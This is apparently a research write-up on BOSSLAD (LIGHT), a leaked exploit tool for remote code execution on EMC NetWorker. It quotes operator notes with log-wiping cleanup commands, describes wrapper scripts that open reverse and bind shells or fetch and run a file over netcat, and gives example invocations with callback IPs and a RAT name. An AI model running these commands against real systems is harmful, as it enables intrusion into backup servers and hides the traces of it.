

[STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# BOSSLAD (LIGHT)

Remote Code Execution exploit for (Dell) EMC (Legato) NetWorker:

> ### when nsrexec is there but NOT with nsrstatd???

Googling `nsrexec` leads us to [the manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsrexec.html).

The mission notes also contain references to 'NSR' folders. These match with the default directories described in the [nsr_layout manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsr_layout.html):

```
### Cleanup
-ls /nsr/cores
-ls /nsr/cores/sh
-cat /nsr/cores/sh/*
rm /nsr/cores/sh/*
-rm /nsr/cores/sh
-touch SOMEFILE /nsr/cores

-ls /nsr/logs
-ls /nsr/logs/daemon.log
-get /nsr/logs/daemon.log
wc -l /nsr/logs/daemon.log
head -## /nsr/logs/daemon.log > n
-cat n
cat n > /nsr/logs/daemon.log
touch SOMEFILE /nsr/logs/daemon.log
```

Source: [user.mission.generic.COMMON.old](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1883-L1898)

## Files

* `bl_light`: The new `boss_lad` binary (`boss_lad` is in comments and being replaced by `bl_light`, for example in `bll.tnc.gr`).
* `bll.tnc.gr`: It will run `bl_light` with a long shell command that connects back and executes the file that is given to it on the callback. (That's why you need to run the `nc -l -p localPort < file2Xfer&Run.uu` before running it)
* `bll.perlbind.gr`: It will run `bl_light` with a long Perl command that will listen on the pwned host for connections (for BURNAT seconds). You can then connect to it via `nc` and it will give you a shell (RUN_WHAT).
* `bll.perlcallback.gr`: It will run `bl_light` with a long Perl command that will callback to the given IP and port. It will - of course - give you a shell when it calls back.
* `bll.telnet.gr`: It will run `bl_light` with a telnet command that will call back from the pwned host to give you a shell. Requires `doublet` (double telnet) to be run locally to receive the callback.


## How to use

Each of the four shell scripts contains a help menu but the notes contain an explicit example as well:
```
./bll.tnc.gr -i 66.128.32.67 -l 67.233.61.230 -p 24792 -f sendmail -D /tmp/.scsi
# On local machine with redirector:
./bll.tnc.gr -i 127.0.0.1 -l PITCH_IP -p NETCAT_PORT -f RAT_NAME -D /tmp/WORK_DIR
```
Source: [user.mission.generic.COMMON.old](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1862-L1874)

If you run it against a dummy netcat listener:
```
$ ./bl_light 127.0.0.1 "echo lol"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 12)
64 66 64 73 66 73 64 66 73 64 66 0a                dfdsfsdfsdf.

$ ./bl_light 127.0.0.1 "echo hello"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 6)
64 66 64 66 64 0a                                  dfdfd.
```

The "dfdsfsdfsdf" is what I type in netcat as answer to the exploit.

## Reverse Engineering bl_light

Since `bl_light` is ran "locally", it is not obfuscated and stripped and it can thus be reverse engineered without a lot of trouble. This is work in progress.



Note: there might be more happening after sending the exploit to the application but I was just listening with a dumb netcat. It's work in progress.
